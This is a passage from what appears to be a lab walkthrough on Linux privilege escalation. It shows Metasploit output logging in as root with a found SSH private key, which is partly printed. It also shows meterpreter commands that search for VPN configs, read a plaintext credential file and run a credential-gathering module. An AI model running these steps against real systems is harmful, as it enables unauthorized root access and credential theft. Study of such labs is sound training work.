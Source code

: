 ```
STOMIZSSBDSfkAAAAJcm9vdEBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set rhosts 10.10.140.168
rhosts => 10.10.140.168
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set username root
username => root
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit

[*] 10.10.140.168:22 SSH - Testing Cleartext Keys
[*] 10.10.140.168:22 - Testing 1 key from PRIVATE_KEY
[+] 10.10.140.168:22 - Success: 'root:-----BEGIN RSA PRIVATE KEY-----
MIIG5AIBAAKCAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/
kYC4B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLmaH7UqBj9X1Wj
..[snip]..
reT9n/DDIuzTxKEX7xhn5f8kT3G5P+GSPFmiSFmh9Dh1/SAIYLPfDIdpSobyrfO8
fMbv0kcEKV8y/X8Ut/n74z0EtRWEERCZuA8+JPLN7P82UP7Cbohjxg==
-----END RSA PRIVATE KEY-----
' 'uid=0(root) gid=0(root) groups=0(root) Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux '
[*] SSH session 2 opened (10.8.145.108:37683 -> 10.10.140.168:22) at 2022-05-23 17:44:13 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 2.2 - Config Files

```
meterpreter > pwd
/home/user
meterpreter > search -f *.ovpn -d /
Found 1 result...
=================

Path                   Size (bytes)  Modified (UTC)
----                   ------------  --------------
/home/user/myvpn.ovpn  212           2017-05-15 20:14:59 -0400

meterpreter > cat myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

meterpreter > cat /etc/openvpn/auth.txt
user
password321
meterpreter > run post/multi/gather/irssi_creds

[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter
[*] Finding ~/.irssi/config
```